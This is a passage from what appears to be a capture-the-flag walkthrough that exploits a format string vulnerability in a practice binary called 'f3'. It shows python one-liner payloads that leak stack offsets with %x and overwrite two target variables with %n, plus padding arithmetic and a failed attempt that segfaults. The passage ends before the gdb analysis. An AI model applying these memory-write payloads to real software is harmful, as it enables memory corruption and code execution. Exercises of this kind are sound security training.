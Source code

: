 So we know that the address is stored 6 DWORDS down the stack. Now to find the location of the second address.

```
$	python -c 'print "\x48\xa0\x04\x08" + "%6$x" + "\x4c\xa0\x04\x08" + ".%7$x.%8$x.%9$x"' | ./f3
H�804a048L�.78243625.804a04c.2437252e
The value of target0 is 0
The value of target1 is 0
$	python -c 'print "\x48\xa0\x04\x08" + "%6$x" + "\x4c\xa0\x04\x08" + "%8$x"' | ./f3
H�804a048L�804a04c
The value of target0 is 0
The value of target1 is 0
```

So we can that with our current format, the second address is 8 DWORDS away. Let's try writing to both address to test it.

```
$	python -c 'print "\x48\xa0\x04\x08" + "%6$n" + "\x4c\xa0\x04\x08" + "%8$n"' | ./f3
H�L�
The value of target0 is 4
The value of target1 is 8
```

So we can see, we are able to write to both variables. However for target0 we wrote 4 bytes and for target1 we wrote 8 bytes. This is because each character that get's printed is written to each each address. When it writes to target0, only the four characters from the target0 address are written so it will only write four bytes. When it gets to the second address, when it prints the addres itself it will add an additional 4 characters to it making a total of 8 bytes. The "%6$n" and "%8$n" are considered to be arguments for the printf function so they don't count.

Now the two values we have to write are 0xace5 to target0 and 0xfacade to target1. Since 0xfacade is bigger than 0xace5, we should write to target0 first, then write to target1. Now let's figure out how many additional characters we should have to write to target0 to make it reach 0xace5.

```
$	python
Python 2.7.12 (default, Nov 19 2016, 06:48:10) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xace5
44261
>>> 0xace5 - 4
44257
>>> exit()
```

So we should have to write 44257 additional characters to target0 to get it to the value we want. Let's try it using the same method from the previous level.

```
$	python -c 'print "\x48\xa0\x04\x08" + "%44257x%6$" + "\x4c\xa0\x04\x08" + "%8$n"' | ./f3
Segmentation fault (core dumped)
```

So that didn't work, we screwed up the format. Let's take a look at how exactly it is stored in memory using gdb.
